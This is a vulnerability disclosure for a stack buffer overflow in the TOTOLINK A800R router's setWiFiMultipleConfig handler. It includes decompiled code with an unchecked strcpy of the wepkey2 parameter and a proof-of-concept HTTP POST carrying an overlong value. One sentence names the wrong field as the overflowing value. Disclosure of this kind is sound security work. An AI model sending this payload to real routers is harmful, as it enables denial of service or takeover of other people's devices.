



# Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** https://www.totolink.net/

**Affected products:** A800R

**Affected firmware version:** V4.1.2cu.5137_B20200730

**Firmware download address:** [https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/166/ids/36.html](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/166/ids/36.html)

# Overview

The TOTOlink A800R router, firmware version V4.1.2cu.5137_B20200730, contains a buffer overflow vulnerability in the `setWiFiMultipleConfig` interface of /lib/cste_modules/wireless.so. The vulnerability occurs because the `wepkey2` parameter is not properly validated for length, allowing remote attackers to trigger a buffer overflow, potentially leading to arbitrary code execution or denial of service.

# Vulnerability details

`setWiFiMultipleConfig` reads the user-supplied `wepkey2` parameter from the HTTP request via `websGetVar` and stores it in `src`. When `authMode` is `OPEN/SHARED` and `keyFormat` is not `1`, the code directly executes `strcpy(dest, src)`, copying it into the stack buffer `dest`, which is only 68 bytes long. Because there is no length validation throughout this process, an attacker only needs to craft a `wepkey2` value longer than 68 bytes to overwrite other local variables on the stack toward higher addresses, and even the return address `$ra`, thereby hijacking program control flow and achieving remote code execution.

```
src = (char *)websGetVar(a2, "wepkey2", "");

char dest[68];  // [sp+8Ch] [-5Ch]

v19 = strlen(src); 
memset(dest, 0, 32);

if ( v46 == 1 )
    string_to_hex(src_1, dest, v19); 
else
    strcpy(dest, src); 
```
Because `strcpy` does not enforce length validation, an attacker can supply an excessively long `setWiFiMultipleConfig` value to overflow the `dest` buffer. This overflow may overwrite adjacent stack memory, leading to memory corruption, process crashes (denial of service), or potentially arbitrary code execution.

The repeated use of these unchecked operations further increases the attack surface and elevates the overall risk and exploitability of the vulnerability.




# POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Origin: http://192.168.0.1
Referer: http://192.168.0.1/login.asp
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Accept: */*
Content-Length: 280

{
  "topicurl": "setting/setWiFiMultipleConfig",
  "doAction": "1",
  "ssid2": "11111111111111111111llllllllllllllllllllabcdDOIT",
  "wepkey2": "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA",
  "keyFormat": "3",
  "authMode": "OPEN"
}
```
